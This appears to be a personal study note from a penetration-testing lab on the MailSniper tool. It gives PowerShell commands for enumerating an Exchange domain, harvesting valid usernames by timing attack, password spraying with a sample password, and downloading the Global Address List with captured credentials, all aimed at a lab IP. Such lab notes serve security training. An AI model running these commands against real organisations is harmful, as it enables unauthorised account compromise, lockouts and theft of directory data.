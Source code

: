 ```yaml
---
creation date: September 22nd 2022
last modified date: September 22nd 2022
aliases: []
tags: #🧰
---
```


Primary Categories: { Add link(s) [[]] back to related PRIMARY categories }
Secondary Categories:  { Add link(s) [[]] back to related SECONDARY categories }
Links: {Add link(s) [[]] to related terms}
Search Tag: #🧰  

# [[MailSniper]]  
___

## Description:
MailSniper is a penetration testing tool for searching through email in a Microsoft Exchange environment for specific terms (passwords, insider intel, network architecture information, etc.).

MailSniper also includes additional modules for password spraying, enumerating users and domains, gathering the Global Address List (GAL) from OWA and EWS and checking mailbox permissions for every Exchange user at an organization.

## Installation
Download [MailSniper](https://github.com/dafthack/MailSniper)

On the **attacker-windows** VM, open PowerShell and import MailSniper.ps1.
`ipmo C:\Tools\MailSniper\MailSniper.ps1`


## Commands
Enumerate the NetBIOS name of the target domain
`Invoke-DomainHarvestOWA -ExchHostname 10.10.15.100`

Validate usernames with timing attack
`Invoke-UsernameHarvestOWA -ExchHostname 10.10.15.100 -Domain CYBER -UserList .\possible-usernames.txt -OutFile valid.txt`

Password Spary 
Can cause lockouts! Too many attempts in a short space of time is not only loud, but may also lock accounts out.
`Invoke-PasswordSprayOWA -ExchHostname 10.10.15.100 -UserList .\valid.txt -Password Summer2021`

Downloading Global Address List with valid creds. respray after list is downloaded
`Get-GlobalAddressList -ExchHostname 10.10.15.100 -UserName CYBER\iyates -Password Summer2021 -OutFile gal.txt`

Go to exchange hostname and log in with valid creds https://exchange-ip-or-hostname/

___

## Resources:

| Hyperlink | Info |
| --------- | ---- |


Created Date: September 22nd 2022 (02:42 pm)  
Last Modified Date: <%+tp.file.last_modified_date("MMMM Do YYYY (hh:ss a)")%>
